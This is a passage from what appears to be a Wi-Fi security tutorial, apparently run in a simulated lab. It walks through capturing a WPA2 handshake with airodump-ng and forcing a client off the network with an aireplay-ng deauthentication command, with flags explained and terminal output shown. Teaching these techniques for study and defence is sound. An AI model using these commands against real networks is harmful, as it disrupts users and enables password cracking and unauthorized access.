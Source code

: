 ```
sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2

CH  6 ][ Elapsed: 1 min ][ 2024-12-11 19:02                                           
                                                                                       
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID   
                                                                                       
 02:00:00:00:00:00  -28 100      656        0    0   6   54   WPA2 CCMP   PSK  Malware 
                                                                                       
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes     
                                                                                       
 02:00:00:00:00:00  02:00:00:00:01:00  -29    0 - 1      0        2  

```

Note that the `STATION` section shows the device's BSSID (MAC) of `02:00:00:00:01:00` that is connected to the access point. This is the connection that we will be attacking. Now we are ready for the next step.

On the second terminal, we will launch the deauthentication attack. Because the client is already connected, we want to force them to reconnect to the access point, forcing it to send the handshake packets. We can break this down into 3 simple steps:

1. **Deauthentication packets:** The tool aireplay-ng sends deauthentication packets to either a specific client (targeted attack) or to all clients connected to an access point (broadcast attack). These packets are essentially "disconnect" commands that force the client to drop its current Wi-Fi connection.
2. **Forcing a reconnection:** When the client is disconnected, it automatically tries to reconnect to the Wi-Fi network. During this reconnection, the client and access point perform the 4-way handshake as part of the reauthentication process.
3. **Capturing the handshake:** This is where airodump-ng comes into play because it will capture this handshake as it happens, providing the data needed to attempt the WPA/WPA2 cracking.

We can do this with `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`. The `-0` flag indicates that we are using the deauthentication attack, and the `1` value is the number of deauths to send. The `-a` indicates the BSSID of the access point and `-c` indicates the BSSID of the client to deauthenticate.

```
sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2

9:03:35  Waiting for beacon frame (BSSID: 02:00:00:00:00:00) on channel 6
19:03:36  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]

```

Now, if we look back on our first terminal, we will see the WPA handshake shown on the top-right of our output as `WPA handshake: 02:00:00:00:00:00`. All of this information is being saved into our output files.

```
CH  6 ][ Elapsed: 1 min ][ 2024-12-11 19:04 ][ WPA handshake: 02:00:00:00:00:00       
                                                                                       
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID   
                                                                                       
 02:00:00:00:00:00  -28 100      885        8    0   6   54   WPA2 CCMP   PSK  Malware 
                                                                                       
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes     
                                                                                       
 02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 1      0      139  EAPOL  
```
